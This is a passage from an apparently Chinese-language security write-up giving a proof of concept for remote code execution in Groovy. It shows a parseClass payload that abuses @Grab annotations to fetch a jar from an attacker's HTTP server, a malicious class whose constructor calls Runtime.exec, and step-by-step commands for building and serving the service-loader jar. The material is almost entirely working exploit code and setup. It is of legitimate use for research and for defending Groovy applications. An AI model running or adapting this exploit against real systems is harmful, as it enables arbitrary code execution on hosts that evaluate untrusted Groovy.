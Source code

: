 ###### POC

```java
//@Grab注解加载远程恶意类
this.class.classLoader.parseClass("""
    @GrabConfig(disableChecksums=true)
    @GrabResolver(name="Poc", root="http://127.0.0.1:8888/")
    @Grab(group="Poc", module="EvilJar", version="0")
    import java.lang.String
""");
```

这里的加载依赖会看本地仓库是否有，如果没有就从root服务器的`group/module/version`目录里面下载`EvilJar-0.jar`文件，默认存放在`~/.groovy/grapes`目录下

之后使用`processOtherServices`方法处理其他服务，比如这里的name

![image-20220420201627587](README/image-20220420201627587.png)

我们就需要在服务器上编写一个恶意类

```java
//Poc.java
public class Poc{
    Poc() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
//编译成.class文件
javac Poc.java
//创建目录
mkdir -p META-INF/services/
//在org.codehaus.groovy.plugins.Runners中写入加载的类名Poc
echo Poc > META-INF/services/org.codehaus.groovy.plugins.Runners
//将.class文件打包成jar包
jar cvf module-version.jar Poc.class META-INF/
//创建放jar包的目录
mkdir -p group/module/version/
//将jar包复制到该目录下
mv module-version.jar group/module/version
//之后开启http服务
```
